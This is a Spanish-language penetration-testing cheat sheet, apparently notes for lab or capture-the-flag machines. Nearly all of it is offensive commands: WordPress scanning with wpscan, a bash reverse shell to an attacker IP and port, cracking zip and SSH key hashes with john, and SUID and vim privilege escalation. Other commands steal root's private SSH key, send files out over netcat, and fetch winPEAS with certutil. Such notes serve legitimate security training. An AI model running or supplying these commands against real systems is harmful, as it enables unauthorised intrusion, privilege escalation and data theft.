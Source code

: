 ##Para analizar páginas web que estén creadas con wordpress podemos realizar estos dos comandos:

wpscan –url http://ip

**Y en caso de que no veamos nada vulnerable, podemos probar a buscar posibles plugins vulnerables:**
wpscan --plugins-version-detection aggressive --url http://192.168.0.5/wordpress

**Opciones para crear una shell inversa:**
[revshell](https://www.revshells.com/)

 “/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'”
 
 **En caso de querer codificarla en url, podemos realizar el siguiente comando:**
urlencode "/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'"

**Sacar hashes de ficheros zip:**
zip2john muyconfidencial.zip > hash_muyconfidencial

**Para tener una mejor consola interactiva una vez hemos realizado nc -lvp 1234**
SHELL=/bin/bash script -q /dev/null
Hacemos control +z
stty raw -echo && fg
escribimos reset
xterm
export TERM=xterm
(un máquina atacante usamos stty size para saber el tamaño de la terminal)
En la vicitma ejecutamos stty rows x columns y

**Página donde ver como escalar privilegios con los binarios (sudo -l )**
[gtfobins](https://gtfobins.github.io/gtfobins/aws/#sudo)

**Visualizar todos los ficheros ordenados por directorios para ver los permisos**
ls -la /* | less

**Página donde se ven diferentes tipos de ataque:**
[deephacking](https://deephacking.tech/)

**Ejemplo de uso para escalar priv con rutas absolutas:**
sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py
pspy - Script que permite visualizar todos los procesos que se están ejecutando en el sistema sin ser root.

**Escalar priv por medio de SUID**
Dar privilegios p.j /bin/bash u+s o (4777) ejecutar el comando del ejemplo bash -p (la opción -p en bash (preserve privileges) le dice a Bash que mantenga los permisos de usuario efectivo). 

**Ejemplo de Búsqueda de Archivos SUID** 
find / -perm -4000 -type f 2>/dev/null (para buscar ficheros) find / -perm -4000 2>/dev/null (para buscar directorios).
**Otro ejemplo pero con un editor como puede ser vim:**
vim -c una vez dentro ejecutar: ':!/bin/sh'

**En algún supuesto caso de que tengamos posibilidad de ver ficheros como root sin serlo y necesitemos escalar a root, una de las posibilidades es entrar en**
/root/.ssh/id_rsa y copiar la clave a nuestra máquina atacante para posteriormente hashear esa clave e intentar sacar la contraseña por el hash. -> ssh2john ficherodondeguardamoslakey > salidaficherohasheado            john ficherohasheado –wordlist /usr/share/wordlist/rockyou   Para terminar, una vez obtengamos la contraseña nos podemos conectar desde la atacante usando el fichero con la clave privada sudo ssh root@ip -i ficheroconlakey
Enviar ficheros por netcat (Victima) nc -q 0 192.168.16.37 9999 < BurgerWithoutCheese.zip (atacante) nc -nvlp 9999 > BurgerWithoutCheese.zip

**Compartir ficheros con máquinas Windows**
certutil -urlcache -split -f http://192.168.200.3/winPEASx64.exe C:\Users\hacker\Documents\winpeas.exe



**Página donde ver ataque de fuerza bruta con hydra a diferentes tipos de login**
[Hydra Brute Force Login Attacks](https://www.manrajbansal.com/post/how-to-use-hydra-to-brute-force-login-forms)
